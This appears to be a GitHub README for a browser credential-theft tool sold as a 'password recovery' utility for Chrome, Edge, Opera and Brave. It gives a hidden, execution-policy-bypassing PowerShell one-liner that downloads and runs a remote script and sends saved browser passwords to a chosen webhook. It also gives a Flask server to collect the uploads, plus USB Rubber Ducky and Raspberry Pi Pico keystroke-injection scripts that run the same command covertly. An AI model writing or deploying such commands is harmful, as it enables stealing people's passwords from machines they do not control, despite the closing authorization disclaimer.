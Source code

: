 # 🔐 Chrome, Edge, Opera and Brave Password Recovery Tool 🔐

## 📱 Overview

This tool helps you recover saved passwords from Chrome, Edge, Opera and Brav browsers when you've forgotten them. Perfect for IT professionals who need to retrieve credentials for work purposes or individuals who need to recover their own forgotten passwords.

## ✨ Features

- 🔍 Recovers passwords from Chrome, Edge, Opera and Brave browsers
- 👤 Works with multiple browser profiles
- 🔄 Automatically generates a Python script to decrypt the passwords
- 📊 Provides a neat summary of recovered credentials
- 🛡️ Simple one-line command for quick recovery

## 🚀 Quick Start

Simply run the following command in a PowerShell window:

```powershell
start /b powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'"
```

⚠️ Be sure to replace `YOUR_WEBHOOK_URL` with your actual webhook URL where the password data will be sent.

## 🌐 Setting Up Your Webhook

You'll need a webhook URL to receive the Python decryption script. Here are some options:

1. **Discord Webhook**: 
   - Create a Discord server
   - Go to Server Settings > Integrations > Webhooks
   - Create a new webhook and copy the URL

2. **Custom Server**:
   - Set up a simple Python server with Flask:

```python
from flask import Flask, request, jsonify
import os

app = Flask(__name__)

@app.route('/webhook', methods=['POST'])
def webhook():
    if 'file' in request.files:
        file = request.files['file']
        file.save(os.path.join('uploads', file.filename))
        return jsonify({"status": "success"})
    return jsonify({"status": "error"})

if __name__ == '__main__':
    os.makedirs('uploads', exist_ok=True)
    app.run(host='0.0.0.0', port=5000)
```

## 📋 Requirements

- Windows operating system
- Chrome, Edge, Opera or Bravr installed
- PowerShell
- Administrator privileges (for best results)

## 🔧 How It Works

1. The tool stops any running Chrome, Edge, Opera and Brave processes
2. Extracts encrypted passwords from the browsers
3. Prepares a Python decryption script
4. Sends the script to your specified webhook
5. The script can then be run to decrypt all the passwords

## 🐍 Decrypting the Passwords Locally

When you receive the Python script, you'll need to:

1. Install the required library:
```bash
pip install pycryptodomex
```

2. Run the decryption script:
```bash
python browser_decrypt.py
```

### Why Local Decryption?

We decrypt passwords locally for several important reasons:
- 🔒 **Security**: Keeps your sensitive data on your machine
- 🚫 **Size Limitations**: Webhooks often have character limits
- ⚙️ **Complexity**: Browser encryption requires specific Python libraries
- 🔑 **Access Control**: Ensures only you can access the decrypted passwords

## 🦆 Automation Options

### USB Rubber Ducky Script

For automated deployment using a USB Rubber Ducky:

```
REM Chrome, Edge, Opera and Brave Password Recovery Tool
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass
ENTER
DELAY 1000
STRING Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'
ENTER
```

### Raspberry Pi Pico Implementation

You can also run this using a Raspberry Pi Pico with CircuitPython:

```python
import time
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keycode import Keycode
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS

# Initialize keyboard
keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

# Wait for the computer to recognize Pico
time.sleep(2)  

# Open Run window
keyboard.send(Keycode.WINDOWS, Keycode.R)
time.sleep(0.5)

# Open command prompt
layout.write("cmd")
keyboard.send(Keycode.ENTER)
time.sleep(0.3)

# Run the password recovery command
layout.write("start /b powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command \"Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'\"")
keyboard.send(Keycode.ENTER)
```

Make sure to replace `'YOUR_WEBHOOK_URL'` with your actual webhook URL in both examples.

## 🛑 Important Notes

- This tool is designed for **legitimate password recovery** of your own accounts or within authorized systems
- Always obtain proper authorization before recovering passwords on systems you don't own
- Use responsibly and ethically
